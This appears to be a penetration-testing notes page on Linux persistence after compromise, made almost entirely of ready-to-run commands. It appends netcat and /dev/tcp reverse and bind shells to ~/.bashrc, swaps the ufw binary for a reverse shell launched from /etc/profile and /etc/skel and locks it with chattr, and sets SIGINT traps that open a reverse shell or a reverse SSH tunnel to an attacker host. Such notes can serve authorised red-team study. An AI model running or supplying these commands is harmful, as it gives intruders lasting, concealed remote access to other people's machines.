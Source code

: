 # Living off the Land

## 01 - User Profile

Reverse Shell

```
$ echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" >> ~/.bashrc

$ echo "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" >> ~/.bashrc
```

Even when the user logs out the shell will still be running.

```
$ echo "nohup <commands> &" >> ~/.bashrc
```

Bind Shell

```
$ echo "nc -e /bin/bash -lnvp 8080 &" >> ~/.bashrc
```

## 02 - Global System Profile

Reverse Shell

```
$ sudo mv /usr/bin/ufw /tmp/ufw.bak

$ sudo echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" > /usr/bin/ufw

$ sudo echo "/usr/bin/ufw &" >> /etc/profile

$ sudo echo "/usr/bin/ufw &" >> /etc/skel/.profile

$ sudo chmod +sss /usr/bin/ufw

$ chattr +i /etc/skel/.profile /etc/profile /usr/bin/ufw
```

## 03 - Trap

### 3.1 - Implant

Setup a `trap` by backdooring when a user triggers the **SIGINT** (`Ctrl + C`) to terminate a program.

```
$ trap "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" SIGINT

$ trap "nohup /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" SIGINT
```

### 3.2 - Reverse SSH Tunneling

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Linux/Remote Login/SSH/Manual/Living off the Land|section]] for more context.

```
$ trap "ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o \"UserKnownHostsFile=/dev/null StrictHostKeyChecking=no\" <username>@<attacker_IP>" SIGINT

$ trap "nohup ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o \"UserKnownHostsFile=/dev/null StrictHostKeyChecking=no\" <username>@<attacker_IP>" SIGINT
```

---
## References

- [[Linux Post Exploitation Persistence References]]
